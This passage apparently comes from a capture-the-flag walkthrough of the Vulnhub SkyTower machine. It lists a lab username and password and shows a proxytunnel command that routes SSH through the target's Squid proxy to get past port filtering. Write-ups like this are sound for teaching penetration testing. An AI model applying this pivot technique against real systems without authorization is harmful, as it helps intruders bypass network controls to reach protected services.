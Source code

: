 Now I got the username and password so lets try SSH now I guess →

```bash
Username: john
Password: hereisjohn
```
{: .nolineno}
{: .nolineno}

Since the Squid Proxy is in our victim machine →

![Untitled](/Vulnhub-Files/img/Skytower/Untitled%204.png)

And the SSH port is filtered out though scan , we can access the SSH server by proxying the connection through the squid server on the target machine with `proxytunnel command` .

```bash
proxytunnel -p 10.0.2.62:3128 -d 127.0.0.1:22 -a 2222
```
{: .nolineno}
{: .nolineno}
